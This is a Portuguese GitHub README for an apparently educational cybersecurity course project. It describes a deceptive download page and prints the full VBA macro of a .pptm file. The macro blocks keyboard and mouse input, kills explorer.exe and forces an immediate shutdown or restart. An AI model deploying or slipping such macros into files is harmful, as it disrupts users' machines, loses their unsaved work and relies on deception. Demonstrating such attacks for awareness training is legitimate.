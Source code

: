 <div align="center">

[![GitHub Pages](https://img.shields.io/badge/GitHub-Pages-327FC7?style=flat-square&logo=github)](https://d3z33.github.io/fontesenai/)
[![HTML5](https://img.shields.io/badge/HTML5-E34F26?style=flat-square&logo=html5&logoColor=white)](https://developer.mozilla.org/en-US/docs/Web/HTML)
[![CSS3](https://img.shields.io/badge/CSS3-1572B6?style=flat-square&logo=css3&logoColor=white)](https://developer.mozilla.org/en-US/docs/Web/CSS)
[![JavaScript](https://img.shields.io/badge/JavaScript-F7DF1E?style=flat-square&logo=javascript&logoColor=black)](https://developer.mozilla.org/en-US/docs/Web/JavaScript)

## Visão Geral

Este projeto faz parte de um curso voltado para os Princípios de Cibersegurança, cujo objetivo é demonstrar cenários simulados de ataques cibernéticos, além de realizar exercícios práticos utilizando tecnologias como HTML, CSS, JavaScript e VBA Macros no PowerPoint. O projeto aborda questões como segurança digital, ameaças online e conscientização dos participantes sobre os riscos presentes na internet.

## 🚀 Acesse o Projeto

Você pode acessar a página do projeto clicando no botão abaixo:

[![Clique aqui para abrir a página do projeto](https://img.shields.io/badge/Abrir-Projeto-2D8CFF?style=for-the-badge)](https://d3z33.github.io/fontesenai/)


## 🌐 Funcionamento do Site

- **Página Inicial:**

O site foi criado para ser interativo e educacional. Ao acessar a página, o usuário é recebido com um botão principal: “Clique aqui para o Download do Arquivo”.


- **Interação do Usuário:**

Ao clicar no botão principal, o botão desaparece em forma de fumaça e é substituído por vários outros botões dispostos de maneira aleatória.

- **Enganação Intencional:** 

Esses novos botões parecem oferecer a opção de download, mas ao tentar clicar neles, eles se movem rapidamente de forma aleatória para impedir que o usuário os clique. Isso foi feito para simular uma experiência de ataque frustrante ou enganosa, comum em cenários de engenharia social.


- **Acesso ao Arquivo:**

Somente um dos botões está fixo de forma minúscula e fornece o download do arquivo real, que é um arquivo PowerPoint (.pptm) contendo uma macro VBA que realiza simulações.

O botão de download real foi propositalmente disfarçado, colocado no canto inferior da tela e minimizado para dificultar sua localização.

Importante: Para acessar o conteúdo da simulação, o usuário deve baixar o arquivo PowerPoint e autorizar a execução das macros.


## 🛠️ Tecnologias Utilizadas

Este projeto foi desenvolvido com as seguintes tecnologias:

- **HTML5**: A estrutura da página foi criada utilizando HTML5, a última versão da linguagem de marcação padrão para a criação de páginas web.

- **CSS3**: O layout e o estilo visual foram implementados com CSS3, permitindo uma personalização sofisticada e responsiva.
  
- **JavaScript**: A lógica interativa e os efeitos dinâmicos foram programados em JavaScript, proporcionando uma experiência de usuário avançada e imersiva.
  
- **VBA Macros**: Utilizado no PowerPoint para criar uma simulação de ataque.
  

## 📂 Estrutura do Projeto

A estrutura de diretórios do projeto é organizada da seguinte forma:

```bash
fontesenai/
├── index.html         # Página principal do projeto
├── styles.css         # Arquivo de estilos CSS
├── script.js          # Script JavaScript para a interação
├── README.md          # Documentação do projeto
└── assets/            # Arquivos de mídia, imagens e ícones utilizados
    ├── 0.jpeg
    ├── 1.jpeg
    ├── 2.jpeg
    ├── 3.jpeg
    ├── 4.jpeg
    ├── 5.jpeg
    └── Apresentasao-Ciber.pptm  # Arquivo PowerPoint usado na simulação
```
## 📜 Instruções para Execução do PowerPoint

- **Ambiente Controlado**

**Acessar a Página:** [Aqui](https://d3z33.github.io/fontesenai/) para abrir a página do projeto.

O arquivo PowerPoint contém macros VBA que simulam um ataque cibernético. É recomendado que o teste seja realizado em um ambiente controlado.

**Habilitar Macros**:

Após o download, o PowerPoint solicitará que você habilite as macros. É necessário adicionar a pasta onde o arquivo foi salvo como local confiável, caso contrário, as macros não serão executadas.
Execução da Macro:

A partir do slide 3 do arquivo PowerPoint, qualquer clique no slide aciona a macro. Isso simula um ataque, causando uma série de ações no sistema, como o movimento descontrolado do mouse, desativação do teclado, abertura de janelas e, por fim, a reinicialização ou desligamento do computador.

## 🎯 Objetivo do Projeto

O objetivo deste projeto é educar e conscientizar os participantes sobre os riscos de segurança na internet. A simulação de um ataque mostra como um cenário realista pode ser perigoso e ilustra a importância da cibersegurança.

## 💻 Código da Macro (VBA) no PowerPoint

Abaixo está o código da macro VBA que simula o ataque:

```bash
' Importa as funções da biblioteca "user32" para mover o cursor do mouse
Declare PtrSafe Function SetCursorPos Lib "user32" (ByVal x As Long, ByVal y As Long) As Long

' Importa a função "Sleep" da biblioteca "kernel32" para adicionar um atraso em milissegundos
Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)

' Importa a função "BlockInput" da biblioteca "user32" para bloquear as entradas do teclado e mouse
Declare PtrSafe Function BlockInput Lib "user32" (ByVal fBlockIt As Long) As Long

' Importa a função "GetSystemMetrics" da biblioteca "user32" para obter as dimensões da tela
Declare PtrSafe Function GetSystemMetrics Lib "user32" (ByVal nIndex As Long) As Long

' Importa a função "ShellExecute" da biblioteca "shell32.dll" para executar arquivos ou abrir URLs
Declare PtrSafe Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" ( _
    ByVal hwnd As Long, _
    ByVal lpOperation As String, _
    ByVal lpFile As String, _
    ByVal lpParameters As String, _
    ByVal lpDirectory As String, _
    ByVal nShowCmd As Long) As Long

' Sub rotina principal que simula o ataque
Sub ExecutarSimulacao()

    ' Bloqueia o teclado e o mouse para impedir interações
    BlockInput True

    ' Faz o cursor do mouse se mover de forma descontrolada em um padrão circular
    Dim i As Long
    For i = 1 To 1000

        ' Calcula a posição do mouse baseada no cosseno e seno para criar o movimento circular
        SetCursorPos (GetSystemMetrics(0) / 2) + 50 * Cos(i), (GetSystemMetrics(1) / 2) + 50 * Sin(i)

        ' Pausa de 1 milissegundo entre cada movimento do mouse para criar fluidez
        Sleep 1
    Next i

    ' URLs das imagens que serão abertas em novas janelas do Chrome
    Dim urls As Variant
    Dim j As Integer
    urls = Array("https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/5.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/4.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/3.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/2.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/1.jpeg", _
                 "https://raw.githubusercontent.com/D3Z33/fontesenai/main/assets/0.jpeg")

    ' Abre cada URL em uma nova janela do Chrome, com um pequeno atraso entre cada uma
    For j = 0 To UBound(urls)

        ' Abre o Chrome em uma nova janela maximizada com a URL correspondente
        ShellExecute 0, "open", "chrome.exe", "--start-maximized --new-window " & urls(j), vbNullString, vbNormalFocus

        ' Pausa de 1200 milissegundos (1,2 segundos) entre a abertura de cada aba
        Sleep 1200
    Next j

    ' Pausa de 1,2 segundos antes de fechar o explorador de arquivos
    Sleep 1200

    ' Fecha o explorador de arquivos do Windows para simular um impacto maior no sistema
    Shell "taskkill /f /im explorer.exe", vbHide

    ' Escolhe aleatoriamente entre desligar ou reiniciar o sistema
    Randomize

    If Rnd < 0.5 Then
        ' Desliga o sistema imediatamente
        Shell "shutdown -s -f -t 0", vbHide  ' Desligar
    Else
        ' Reinicia o sistema imediatamente
        Shell "shutdown -r -f -t 0", vbHide  ' Reiniciar
    End If
End Sub
```

## 🛠️ Instruções Gerais

- **Execução Manual Não Recomendada:**
   A simulação é programada para ser automática. Caso as macros não sejam executadas corretamente, a simulação não terá efeito.

- **Ambiente Seguro:**
Para evitar problemas, execute este teste em um ambiente seguro ou em máquinas virtuais.

- **Desempenho do Sistema:**
Durante a execução da macro, o sistema pode sofrer impacto no desempenho, como fechamento de aplicações e reinicialização do sistema.


### Explicações:

- **Ícones de Tecnologias**: Usei ícones para HTML5, CSS3, e JavaScript, que são as tecnologias principais usadas neste projeto.

- **Botão de Acesso**: Um botão grande e claro que leva diretamente à página do projeto.

- **Estrutura do Projeto**: Descrição da estrutura de diretórios para facilitar a compreensão do projeto.

- **Objetivo e Instruções**: Uma seção clara sobre o propósito do projeto e como utilizá-lo.

## ⌨️ com ❤️ por [D3Z33] 🧑‍💻 🎓
